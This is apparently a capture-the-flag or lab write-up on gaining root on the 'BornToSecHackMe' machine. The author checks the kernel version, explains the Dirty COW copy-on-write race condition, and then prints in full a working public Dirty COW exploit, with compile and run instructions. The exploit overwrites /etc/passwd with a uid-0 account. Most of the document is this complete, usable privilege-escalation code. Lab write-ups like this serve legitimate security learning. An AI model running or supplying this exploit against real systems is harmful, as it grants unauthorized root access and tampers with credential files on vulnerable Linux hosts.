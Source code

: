 ## Path 2 - Using dirty COW kernel exploit to overwrite /etc/passwd to login as root
**Refer Path 1 on getting password for laurie**

Once in the machine, I did `uname -a` to determine the kernel version of the machine. The output is like so 
```
laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 athlon i386 GNU/Linux
laurie@BornToSecHackMe:~$
```

I tried searching for any kernel exploits starting version 3.0 in [exploitDB](https://www.exploit-db.com/). Here are the results I found.
![image](https://hackmd.io/_uploads/BJbO-iSEa.png)

I tried using the mempodripper but it didnt work
![image](https://hackmd.io/_uploads/H15wXjrE6.png)


Thus, I widen my search to start from version 2.0 instead
![image](https://hackmd.io/_uploads/HyVt4iSNa.png)


the first verified exploit with gcc is called [dirty cow](https://www.exploit-db.com/exploits/40616).

This expoit leverages the non-atomicity of the systems Copy on Write (COW) mechanism to allow us to write to files which we have read permissions only.

TLDR: the kernel has a mechanism in place to improve memory redundancy by creating a copy of data in a page if its shared across multiple resources whenever a request to write to that page is made. 

However, the step which they locate the address page and write to the page is not atomic, which gives us space for race-condition attacks. There is also a safety mechanism in COW that will write to the **original** memory space instead if the copy is destroyed (like calling madvise on a mmap region). 

With this information, our desired timing for a race condition will be 

![image](https://hackmd.io/_uploads/rkE9ZUvET.png)

With that said, we can write things to files like `/etc/passwd` to gain access to root.

Here is the exploit code from exploitDB

```clike=
//
// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at
//

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = "%s:%s:%d:%d:%s:%s:%s\n";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf("madvise %d\n\n", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf("File %s already exists! Please delete it and run again\n",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, "r");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "firefart";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "pwned";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Please enter the new password: %s\n", plaintext_pw);
  } else {
    plaintext_pw = getpass("Please enter the new password: ");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %lx\n",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf("ptrace %d\n",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf("Done! Check %s to see if the new user was created.\n", filename);
  printf("You can log in with the username '%s' and the password '%s'.\n\n",
    user.username, plaintext_pw);
    printf("\nDON'T FORGET TO RESTORE! $ mv %s %s\n",
    backup_filename, filename);
  return 0;
}
```
I followed the compilation steps, and I get root

![image](https://hackmd.io/_uploads/BJVGf8wVp.png)